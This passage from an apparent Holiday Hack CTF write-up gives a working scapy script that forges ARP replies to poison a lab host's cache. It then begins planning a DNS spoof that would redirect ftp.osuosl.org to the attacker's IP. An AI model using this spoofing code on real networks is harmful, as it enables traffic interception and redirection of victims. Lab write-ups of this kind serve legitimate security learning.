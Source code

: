 ```python arp_resp.py
def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst=them, type=0x806, src=us)
        arp_response = ARP(pdst=them)
        arp_response.op = 2
        arp_response.plen = 4
        arp_response.hwlen = 6
        arp_response.ptype = 0x0800
        arp_response.hwtype = 1
        arp_response.hwsrc = us
        arp_response.psrc = "10.6.6.53"
        arp_response.hwdst = them
        arp_response.pdst = "10.6.6.35"
        response = ether_resp/arp_response
        sendp(response, iface="eth0")

def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)

if __name__ == "__main__":
    main()
```

_Note: The `us` variable is the result of me realising that if the environment is refreshed (you closed the terminal or something else happened), your IP address and MAC address could change. So, that part is just to ignore those and just pull whatever the current value is._

Having tshark open in one window while running `python3 arp_resp.py` to effectively perform an ARP poisoning attack, we would see the next step in the challenge.

{{< figure src="/images/holidayhack-20/arp_shenanigans_dns_request.png" title="arp shenanigans dns request after arp poison" >}}

Our ARP response and the new DNS request for `ftp.osuosl.org` extracted:

```text
    6 4.228167027 02:42:0a:06:00:03 → 4c:24:57:ab:ed:84 ARP 42 10.6.6.53 is at 02:42:0a:06:00:03
    7 4.268778840    10.6.6.35 → 10.6.6.53    DNS 74 Standard query 0x0000 A ftp.osuosl.org
```

After telling 10.6.6.35 that "hey, we're that 10.6.6.53 ip you're looking for!", a DNS lookup for ftp.osuosl.org follows soon after. Yep, you guessed it, we need to reply with an IP, and preferably *our* IP!

The `dns_resp.py` script needed some carefully considered modifications. Once specific change I had to make was to relax the packet filter rules as scapy was not seeing the incoming DNS traffic. You also have to consider _how_ the DNS request got to us, and what a typical response conversation would have looked like. If we take a look at another `tcpdump` session after performing the ARP poison, you'd see what I want to get to.
